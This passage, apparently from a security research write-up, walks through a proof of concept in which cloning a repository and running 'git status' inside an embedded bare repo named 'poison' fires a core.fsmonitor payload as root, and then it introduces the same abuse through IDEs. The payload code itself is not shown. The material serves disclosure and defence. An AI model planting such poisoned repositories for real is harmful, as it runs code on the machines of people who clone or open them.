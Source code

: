 Start a Git daemon to allow the repo to be cloned:

```plain
root@421f854b575a:~/malicious# git daemon --verbose --export-all --base-path=.git --reuseaddr --strict-paths .git/
[153] Ready to rumble
```

Start a new shell within the container and clone the Git repo:

```plain
% sudo -g docker docker exec -ti f3eed6860a67 bash

root@f3eed6860a67:/#

root@421f854b575a:/# cd $(mktemp -d)

root@f3eed6860a67:/tmp/tmp.hz1iFlAo2n# git clone git://127.0.0.1/
Cloning into '127.0.0.1'...
remote: Enumerating objects: 23, done.
remote: Counting objects: 100% (23/23), done.
remote: Compressing objects: 100% (12/12), done.
remote: Total 23 (delta 0), reused 0 (delta 0), pack-reused 0
Receiving objects: 100% (23/23), done.
```

`cd` into the cloned repo and do `git status` from the root. Nothing interesting happens.

```plain
root@f3eed6860a67:/tmp/tmp.hz1iFlAo2n# cd 127.0.0.1/

root@f3eed6860a67:/tmp/tmp.hz1iFlAo2n/127.0.0.1# git status
On branch main
Your branch is up to date with 'origin/main'.

nothing to commit, working tree clean
```

`cd` into the embedded bare repo and do `git status`. Observe that the `core.fsmonitor` payload executes.

```plain
root@f3eed6860a67:/tmp/tmp.hz1iFlAo2n/127.0.0.1# cd poison/

root@f3eed6860a67:/tmp/tmp.hz1iFlAo2n/127.0.0.1/poison# git status
Pwned as uid=0(root) gid=0(root) groups=0(root)
Pwned as uid=0(root) gid=0(root) groups=0(root)
On branch main
nothing to commit, working tree clean
```

# Exploitation via `core.fsmonitor` in IDEs

Returning to the "abuse via `core.fsmonitor`" concept, various IDEs can be shown to be vulnerable when opening directories containing a malicious `.git` directory.

